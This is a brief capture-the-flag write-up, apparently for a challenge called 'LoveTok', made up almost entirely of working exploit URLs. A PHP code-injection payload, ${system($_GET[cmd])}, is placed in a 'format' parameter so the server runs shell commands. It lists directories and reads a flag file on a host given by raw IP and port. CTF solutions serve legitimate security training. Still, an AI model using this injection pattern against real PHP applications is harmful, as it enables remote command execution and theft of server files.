

# LoveTok

## Code Audit

- find url `http://159.65.20.166:31685/?format=r` with info exhibition

## Command Injection

- `http://159.65.20.166:31685/?format=${system($_GET[cmd])}&cmd=ls`

- `http://159.65.20.166:31685/?format=${system($_GET[cmd])}&cmd=ls ../`

- `http://159.65.20.166:31685/?format=${system($_GET[cmd])}&cmd=cat ../flag8AiQ0`